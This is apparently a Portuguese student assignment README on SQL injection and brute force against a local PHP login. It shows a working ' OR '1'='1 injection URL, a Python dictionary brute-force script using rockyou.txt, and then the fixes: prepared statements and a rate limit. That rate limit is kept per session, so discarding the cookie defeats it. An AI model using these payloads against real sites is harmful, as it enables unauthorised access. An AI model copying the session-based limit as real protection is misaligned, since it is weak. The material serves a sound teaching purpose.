 # Atividade SQL Injection

Apresente um código (pode ser em qualquer linguagem) que possa estar sujeito a ataques de SQL Injection e/ou Força Bruta. Faça implementações deixem o código mais seguro, em relação esses tipos de ataques, então explique qual(is) o(s) tipo(s) de ataque que está(ão) sendo evitados e qual a parte do código que evita esse ataque.

## Resultados de ataques

### SQL Injection

Para começar a executar um SQL Injection, primeiro precisamos executar essa URL que liga diretamente ao SQL.

```
http://localhost/Atividade_SQL_Injection/index.php?user=hello' OR '1' = '1&password=hello' OR '1' = '1
```

Nesse caso, vemos que o ``hello`` e o último ``1`` estão acompanhado de ``'`` no começo e fim do valor de cada variável. Isso porque no código SQL original, ele cobre o valor com uma aspa única no início de cada palavra de cada variável respectiva.

O código SQL gerado pela URL acima será:

```sql
SELECT * FROM usuarios WHERE user='hello' OR '1' = '1' AND password='hello' OR '1' = '1'
```

Nesse caso ele está perguntado para o usuário se ele é igual ao nome ``hello`` ou o valor booleano ``True``, já que ``'1' = '1'`` é igual a ``True``, a mesma lógica é aplicada na senha.

Como os dois valores são ``True``, então o ``SELECT * FROM usuarios`` irá mostrar tudo ao invés de um valor específico já que tudo é ``True``.

Com isso, o resultado que ele dará para a gente será o acesso ao sistema.

![](assets/image.png)

### Brute-Forcing

Para começar a fazer o brute-forcing até descobrir o usuário e a senha correta para liberar a tabela inteira dos usuários, precisamos de um script para testar todas as opções até chegar uma que dê o resultado que a gente queira.

Eu criei um script Python com esse propósito.

```python
import urllib.request
import json
import os

os.chdir(os.path.dirname(os.path.abspath(__file__)))

with open('rockyou.txt', "r", encoding="utf-8", errors="ignore") as file:
  dictionary = [line.strip() for line in file if ' ' not in line]

for user in dictionary:
  for passwd in dictionary:
    url = "http://localhost/Atividade_SQL_Injection/index.php?user=" + user + "&password=" + passwd + ""
    response = urllib.request.urlopen(url)
    html = response.read().decode('utf-8')
    data = json.loads(html)
    if data["success"] == 1:
      print("Quebrado com successo!")
      break
```

Nesse caso ele utiliza um ataque de dicionário para não gastar tanto tempo testando letra por letra até algo dar certo.

Essa forma só vale a pena caso você tenha muito tempo nas mãos para ficar testando mais de 14 milhões de senhas para cada usuário.

Ou seja, a notação em Big-O é de ``O(n^2)``.

Mas nesse caso, ele só funciona caso a senha não tenha um hash como o Argon2id, mas isso é assunto pra outra hora, já que irá depender de como o servidor valida o hash e como é armazenado no banco de dados.

## Resultados de proteção

### Prepared Statements

Com o Prepared Statement, a query SQL não é mandada junto com o valor pedido.

```php
$stmt = $conexao->prepare("SELECT * FROM usuarios WHERE user=? AND password=?");
$stmt->bind_param("ss", $_GET["user"], $_GET["password"]);
```

Em comparação a maneira insegura.

```php
$sql = "SELECT * FROM usuarios WHERE user='" . $_GET["user"] . "' AND password='" . $_GET["password"] . "'";
```

Nesse caso, com o Prepared Statement, ele mandaria o valor em si ao invés de complementar a string, por exemplo

```
http://localhost/Atividade_SQL_Injection/index_safe.php?user=hello' OR '1' = '1&password=hello' OR '1' = '1
```

O valor que iria mandar para o banco de dados para o usuário e para a senha seria ``hello' OR '1' = '1`` e não ``'hello' OR '1' = '1'``.

Ou seja, ele tentaria procurar um usuário (ou senha) com o valor ``hello' OR '1' = '1``.

O que iria mitigar o problema do SQL Injection para modificar a query dada.

### Rate Limit

No caso do brute-force, a maneira mais sensata seria criar um rate limit para cada vez que o usuário errasse o seu nome de usuário e a sua senha.

```php
$ip = $_SERVER['REMOTE_ADDR'];
if ($ip == '::1') {
    $ip = '127.0.0.1';
}

if ($resultado->num_rows > 0) {
    $response["success"] = 1;
    $response["msg"] = "Sucesso! Acesso garantido...";
    unset($_SESSION['rate_limit']);
} else {
    $response["success"] = 0;
    $response["msg"] = "Erro! Acesso negado...";
    $_SESSION['rate_limit'][] = $ip;
}
```

Pois caso ele errasse ele voltaria ao mesmo canto e iria diminiuir o tanto de vezes que ele poderia errar.

Caso ele errasse mais de 5 vezes, ele entraria num timeout de 5 minutos até que ele pudesse tentar de novo.

O contador persiste por sessão, ele pode errar até 5 vezes e ter que esperar até 5 minutos. Caso ele erre 4 vezes, ele só tem mais uma chance até ir para o timeout mais uma vez.

O tanto de vezes que ele pode errar está guardado em uma array.

```php
$rate_limit_count = 5;
$timeout_minutes = 5;

if (count($_SESSION['rate_limit'], 0) >= $rate_limit_count) {
    if (!isset($_SESSION['timer_start'])) {
        $_SESSION['timer_start'] = time();
    }

    $duration = $timeout_minutes * 60;
    $elapsed = time() - $_SESSION['timer_start'];
    $remaining = $duration - $elapsed;

    if ($remaining <= 0) {
        unset($_SESSION['timer_start']);
        unset($_SESSION['rate_limit']);
    } else {
        $minutes = ceil($remaining / 60);
        echo "Por favor, aguarde mais {$minutes} minuto(s) antes de tentar novamente.";
    }
}
```